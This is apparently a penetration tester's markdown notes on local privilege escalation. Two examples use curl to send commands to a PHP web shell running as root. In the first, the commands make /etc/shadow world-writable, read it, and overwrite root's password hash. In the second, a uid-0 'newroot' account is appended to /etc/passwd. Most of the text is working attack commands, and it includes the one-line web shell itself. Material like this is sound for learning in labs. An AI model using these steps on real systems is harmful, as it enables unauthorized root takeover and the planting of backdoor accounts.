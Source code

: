 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```bash - target
find / -iname *.php* 2>/dev/null
```

```bash - target
find / -iname *.html* 2>/dev/null
```


```bash - target
cat start_page.php
```

Here we can see discussion of cmd.php page.

![[Pasted image 20220713144014.png]]

```bash - target
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

![[Pasted image 20220713144136.png]]

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```bash - target
su root
```

```bash - target
password
```

#### Example 2

We find a php file listening on port 8000.

```bash - target
cat cmd.php
```

><?php system($_POST['cmd']); ?>

verify we can run commands with this by creating a test file:

```bash - target
curl -X POST --data cmd='touch /home/$USER/test' 127.0.0.1:8000/cmd.php
```

Generate a password hash for the password “password”

using openssl:

```bash - target
openssl passwd "password"
```

```bash - target
curl -X POST --data cmd=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8000/cmd.php
```

```bash - target
cat /etc/passwd | grep root
```

![[Pasted image 20221110094556.png]]

```bash - target
su newroot
```

```bash - target
password
```